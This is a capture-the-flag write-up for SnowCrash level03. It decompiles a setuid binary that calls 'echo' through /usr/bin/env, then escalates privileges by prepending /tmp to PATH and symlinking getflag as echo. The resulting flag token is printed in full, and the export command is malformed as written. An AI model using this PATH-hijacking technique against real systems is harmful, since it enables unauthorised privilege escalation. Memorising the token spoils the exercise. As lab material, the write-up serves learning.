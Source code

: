 when you enter lv03 and do a basis ls you get
level03@SnowCrash:~$ /bin/ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile

so an executable running it, it says:


level03@SnowCrash:~$ ./level03 
Exploit me

so decompiling it (I used gidrhra but gdb works as well)


int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}

we can conclude a few things 
1. as the files owner is flag03 (not user 03) and has s permissions that means that running this will be run as flag03 user. 
2. The user is running echo via /usr/bin/env that is weird.

Explotation let's trick the system into thinking getflag is actually echo first lets add /tmp at the start of the PATH env variable

export "/tmp:$PATH"

then lets create en tmp a symbolic link to getflag called echo

ln -s /bin/getflag /tmp/echo

and run the executable again

level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus